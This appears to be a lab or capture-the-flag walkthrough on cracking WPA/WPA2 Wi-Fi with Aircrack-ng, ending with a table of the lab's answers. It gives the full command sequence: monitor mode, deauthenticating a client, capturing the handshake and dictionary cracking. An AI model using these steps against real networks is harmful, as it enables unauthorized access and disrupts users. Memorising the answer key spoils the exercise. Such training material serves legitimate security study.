

# WiFi Hacking



A practical walkthrough of attacking WPA/WPA2 wireless networks using the Aircrack-ng toolchain: monitor mode configuration, channel sniffing, targeted deauthentication, 4-way handshake capture, and offline dictionary cracking.

---

## 1. WPA/WPA2 Architecture

- **SSID:** Service Set Identifier.
- **ESSID:** Extended Service Set Identifier across multiple APs.
- **4-Way Handshake:** The cryptographic key exchange between client and Access Point deriving the Pairwise Transient Key (PTK) without transmitting the Pre-Shared Key (PSK) directly.

---

## 2. Attack Lifecycle & Methodology



---

## 3. Step-by-Step Exploitation

### Step 1: Initialize Monitor Mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### Step 2: Target Discovery with Airodump-ng
```bash
sudo airodump-ng wlan0mon
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon
```
- `-c`: Locks wireless adapter to channel 6.
- `--bssid`: Targets specific Access Point MAC.
- `-w`: Writes captured packets to `capture-01.cap`.

### Step 3: Targeted Deauthentication
Force a connected client to drop and immediately reconnect:
```bash
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon
```
Airodump-ng indicates: `[ WPA Handshake: 00:11:22:33:44:55 ]`.

### Step 4: Offline Dictionary Attack
Crack the captured handshake against `rockyou.txt`:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture-01.cap
```
Once matched, Aircrack-ng reports: `KEY FOUND! [ password123 ]`.

---

## 🏁 Questions & Answers

| Task | Question | Answer |
|---|---|---|
| **Task 1** | What does SSID stand for? | `Service Set Identifier` |
| **Task 1** | Term describing an SSID applying to multiple access points | `ESSID` |
| **Task 2** | Command used to check for and kill interfering processes | `airmon-ng check kill` |
| **Task 2** | Mode the wireless card must be placed in to capture packets | `monitor mode` |
| **Task 3** | Tool used to capture wireless packets and enumerate APs | `airodump-ng` |
| **Task 3** | Parameter specifying channel in airodump-ng | `-c` |
| **Task 4** | Frame type sent to force a client to disconnect and reconnect | `Deauthentication` |
| **Task 4** | Tool used to transmit deauthentication packets | `aireplay-ng` |
| **Task 5** | Tool used to execute dictionary attacks against handshakes | `aircrack-ng` |
| **Task 5** | Flag used to specify the wordlist file | `-w` |
